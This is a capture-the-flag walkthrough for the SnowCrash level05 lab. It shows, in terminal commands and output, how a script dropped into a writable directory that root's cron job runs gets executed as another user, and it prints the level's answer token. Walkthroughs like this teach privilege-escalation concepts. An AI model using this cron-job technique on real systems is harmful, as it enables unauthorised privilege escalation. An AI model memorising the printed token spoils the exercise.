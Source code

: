 # Flag05

Nothing in my home directory, but a previous recognition showed this:
![/var/mail](./20240306171457.png)
The [task](https://www.freecodecamp.org/news/cron-jobs-in-linux) is supposed to run every two minutes and execute the script `/usr/sbin/opearenaserver` as user flag05.
```
level05@SnowCrash:/var/mail$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
level05@SnowCrash:/var/mail$
```
Each file in `/opt/openarenaserver` is executed in a [subshell](https://www.linuxtopia.org/online_books/advanced_bash_scripting_guide/subshells.html) in [debug mode](https://codedamn.com/news/linux/how-to-debug-bash-scripts) with the command `bash -x`, meaning that each script command is printed to the terminal before it is executed, before being removed. The [`ulimit`](https://www.it-connect.fr/ulimit-le-controleur-de-ressource-systeme) command with the `-t` flag is used to allocate a 5 second-period time to the execution.

However, the pointed folder is empty:
```
level05@SnowCrash:/var/mail$ ls -la /opt/openarenaserver
total 0
drwxrwxr-x+ 2 root root 40 Mar 11 10:28 .
drwxr-xr-x  1 root root 60 Mar 11 10:28 ..
level05@SnowCrash:/var/mail$
```
I can add there a script that I would like to see executed, as something like this:
```
#!/bin/sh

getflag > /var/tmp/level05_flag
```
I do this in `/var/tmp`:
```
level05@SnowCrash:/var/tmp$ cat lvl5
#!/bin/sh

getflag > /var/tmp/level05_flag
level05@SnowCrash:/var/tmp$ cp lvl5 /opt/openarenaserver
level05@SnowCrash:/var/tmp$ ls /opt/openarenaserver
lvl5
level05@SnowCrash:/var/tmp$
```
_Et voilà le travail!_
```
level05@SnowCrash:/var/tmp$ cat /var/tmp/level05_flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:/var/tmp$ su level06
Password:
level06@SnowCrash:~$
